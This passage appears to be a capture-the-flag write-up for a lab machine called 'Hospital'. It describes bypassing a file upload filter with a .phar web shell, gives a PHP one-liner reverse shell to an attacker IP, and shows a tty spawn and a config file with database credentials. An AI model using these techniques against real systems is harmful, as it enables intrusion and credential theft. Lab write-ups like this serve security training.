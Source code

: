   * Authentication domain: HOSPITAL
* **DNS**:
  * origin: **dc.hospital.htb**

## Gaining Access

### File Upload Vulnerability <a href="#file-upload-vulnerability" id="file-upload-vulnerability"></a>

Try to search a File Upload Vulnerability. With a registered account we can try to upload a fake image containing a PHP reverse shell. From preceding fuzzing, we know that there is a directory called **uploads** but images when retrieved are not processed by web server but **only stored** so we need to force the PHP upload trying different extensions.

We see that `.phar` extension is allowed so we try to upload a web shell (reverse shell not work due to inability to demonize the process) and trigger it using this path: [http://hospital.htb:8080/uploads/powny.phar](http://hospital.htb:8080/uploads/powny.phar)

<figure><img src="../../.gitbook/assets/image (2).avif" alt=""><figcaption></figcaption></figure>

### Get a reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

Use the php oneline reverse shell:

```bash
php -r '$sock=fsockopen("10.10.15.101",6666);shell_exec("sh <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3).avif" alt=""><figcaption></figcaption></figure>

1. Obtain a reverse shell
2. Spawn a tty `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src="../../.gitbook/assets/image (4).avif" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Under `/var/www/html` there are some interesting files:

{% code title="config.php" %}
```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
{% endcode %}
